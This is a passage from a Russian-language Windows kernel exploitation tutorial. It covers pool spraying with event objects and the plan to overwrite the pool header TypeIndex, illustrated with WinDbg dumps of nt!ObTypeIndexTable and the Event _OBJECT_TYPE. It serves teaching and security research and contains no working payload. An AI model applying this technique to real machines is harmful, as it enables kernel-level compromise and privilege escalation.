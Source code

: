Так как мы спреим невыгружаемый пул с помощью объектов событий, мы можем просто добавить наши значения в конец нашего уязвимого буфера. Но это не сработает, так как хедеры имеют внутреннюю структуру, нужна некоторая модификация. Давайте копнём глубже в хедеры, чтобы понять, что модифицировать:

![Pool](/assets/post_images/8.png)

Вещь, которая нас интересует, это TypeIndex, который на самом деле оффсет (0xC) в массиве указателей, который объявляет OBJECT_TYPE каждого объекта, который поддерживает Windows.

```
kd> dd nt!ObTypeIndexTable
8277aee0  00000000 bad0b0b0 84ec7860 84ec7798
8277aef0  84ec76d0 84ec74a0 84ec7360 84ec7298
8277af00  84ec71d0 84ecef78 84eceeb0 84ece818       84ec71d0 - оффсет 0xC
8277af10  84f60418 84f60350 84f61418 84f61350
8277af20  84f5f3f0 84f5f328 84f629b8 84f628f0
8277af30  84f62828 84f62760 84f62698 84f625d0
8277af40  84f62508 84f62440 84f62378 84f63040
8277af50  84f63f78 84f63bd8 84f63b10 84f63a48

kd> dt nt!_OBJECT_TYPE 84f60418 .
   +0x000 TypeList         :  [ 0x84f60418 - 0x84f60418 ]
      +0x000 Flink            : 0x84f60418 _LIST_ENTRY [ 0x84f60418 - 0x84f60418 ]
      +0x004 Blink            : 0x84f60418 _LIST_ENTRY [ 0x84f60418 - 0x84f60418 ]
   +0x008 Name             :  "Event"
      +0x000 Length           : 0xa
      +0x002 MaximumLength    : 0xc
      +0x004 Buffer           : 0x8cc08a88  "Event"
   +0x010 DefaultObject    : 
   +0x014 Index            : 0xc ''
   +0x018 TotalNumberOfObjects : 0x4643
   +0x01c TotalNumberOfHandles : 0x466f
   +0x020 HighWaterNumberOfObjects : 0x4643
   +0x024 HighWaterNumberOfHandles : 0x466f
   +0x028 TypeInfo         : 
      +0x000 Length           : 0x50
      +0x002 ObjectTypeFlags  : 0 ''
      +0x002 CaseInsensitive  : 0y0
      +0x002 UnnamedObjectsOnly : 0y0
      +0x002 UseDefaultObject : 0y0
      +0x002 SecurityRequired : 0y0
      +0x002 MaintainHandleCount : 0y0
      +0x002 MaintainTypeList : 0y0
      +0x002 SupportsObjectCallbacks : 0y0
      +0x002 CacheAligned     : 0y0
      +0x004 ObjectTypeCode   : 2
      +0x008 InvalidAttributes : 0x100
      +0x00c GenericMapping   : _GENERIC_MAPPING
      +0x01c ValidAccessMask  : 0x1f0003
      +0x020 RetainAccess     : 0
      +0x024 PoolType         : 0 ( NonPagedPool )
      +0x028 DefaultPagedPoolCharge : 0
      +0x02c DefaultNonPagedPoolCharge : 0x40
      +0x030 DumpProcedure    : (null) 
      +0x034 OpenProcedure    : (null) 
      +0x038 CloseProcedure   : (null) 
```
